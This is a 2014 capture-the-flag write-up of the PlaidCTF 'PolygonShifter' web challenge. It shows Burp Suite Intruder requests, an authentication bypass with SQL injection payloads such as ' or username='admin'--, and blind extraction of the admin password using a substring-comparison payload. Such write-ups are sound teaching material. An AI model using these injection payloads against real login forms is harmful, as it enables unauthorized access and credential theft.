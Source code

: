 ```yaml
---
id: 1919
title: 'PlaidCTF writeup for Web-100 &#8211; PolygonShifter (blind sql injection)'
date: '2014-05-20T16:30:24-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'https://blog.skullsecurity.org/2014/1873-revision-v1'
permalink: '/?p=1919'
---
```


Hey folks,

I know in my last blog I promised to do a couple exploit ones instead of doing boring Web stuff. But, this level was really easy and I still wanted to do a writeup, so you're just going to have to wait a little while longer for my 'kappa' writeup!  
  
This 100-point Web challenge, called PolygonShifter, basically added some anti-bot defenses to a Web site by obfuscating the username/password field names, as well as the action for the POST request. When you visited the page, you'd see something like this:

```

<span class="htmlTag"><</span><span class="htmlTagName">form</span><span class="htmlTag"> </span><span class="htmlArg">action</span><span class="htmlTag">=</span><span class="Constant">"/S1tl90gme2GJ67epbZz9"</span><span class="htmlTag"> </span><span class="htmlArg">method</span><span class="htmlTag">=</span><span class="Constant">"POST"</span><span class="htmlTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">""</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">"text-align:left;"</span><span class="htmlTag">></span>Username<span class="htmlEndTag"></</span><span class="htmlTagName">label</span><span class="htmlEndTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">"text"</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">"lK1TFqrcp3fvIRSg8V7T"</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">"L1UIVbxzFD8wUUo8SaJH"</span><span class="htmlTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">"LkW7Ye9ItPb8CGeKZrMU"</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">"text-align:left;"</span><span class="htmlTag">></span>Password<span class="htmlEndTag"></</span><span class="htmlTagName">label</span><span class="htmlEndTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">"password"</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">"LkW7Ye9ItPb8CGeKZrMU"</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">"LmmURBa3S5NRYBwzHXhC"</span><span class="htmlTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">class</span><span class="htmlTag">=</span><span class="Constant">"primary large"</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">"submit"</span><span class="htmlTag"> </span><span class="htmlArg">value</span><span class="htmlTag">=</span><span class="Constant">"Login"</span><span class="htmlTag">></span>
<span class="htmlEndTag"></</span><span class="htmlTagName">form</span><span class="htmlEndTag">></span>
```

I immediately installed the 'httparty' gem and started writing a solution in ruby, when I had an inspiration. I tried using the same action multiple times, and it worked! It would only work for a few minutes before I had to refresh and get a new one. But, that was enough!

I decided—incorrectly—that this was likely a brute-force level, so I fired up Burp Suite, chose 'Intruder' mode, and set it to something like:

```

<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 56</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&FcZtaYem0HE0t9bQQCTE=§password§</span>
```

Then I used Burp Suite's built-in list of passwords to attack the account.

I let the attack run through the ~1000 or so passwords, then added a filter for 'Hello, ' (in order to find good attempts). There weren't any. Damnit, now I need a new plan!

...then, on a random inspiration, I tried an invert search for 'Wrong password'. And there was one entry: a password containing a single quote returned "An error occurred" instead of "Wrong password". \*facepalm\*, it's sql injection!

So, I tried logging in with:

- Username :: admin
- Password :: ' or 1=1--

And immediately, I'm logged in... as 'test'. Derp!

So I changed my credentials to:

- Username :: admin
- Password :: ' or username='admin'--

(Don't forget to put a space after the '--' if you're following along!)

And boom! I'm logged in as 'admin'! Finished, right? WRONG! The banner says: "Hello, admin!! My password is the flag!"

Now, it sounds like I need to recover admin's password. CHALLENGE. ACCEPTED.

I threw together a quick Burp Suite Intruder attack that looked like:

```

<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 53</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&FcZtaYem0HE0t9bQQCTE=%27+or+%28username%3D%27admin%27+and+binary+substring%28password%2C+§1§%2C+1%29+%3D+%27§a§%27%29--+</span>
```

To clean it up, it's basically:

- Username :: admin
- Password :: ' or (username='admin' and binary substring(password, $1, 1) = '$2')

(Where $1 and $2 are Burp Suite's marked fields)

Then I set Burp Suite to use a 'Cluster Bomb' style of attack, which means that each field has its own set of values that are tried. Then I set the two variables to:

- $1 :: numeric, 1 - 45 (I had to keep expanding this since the password was 30+ characters long!)
- $2 :: custom set, a-z A-Z 0-9 + symbols

Then I let it run, filtered for 'Hello', and got the following results:

![](https://blogdata.skullsecurity.org/polygonshifter-solution.png)

Boom! Arrange those properly and you have your password. :)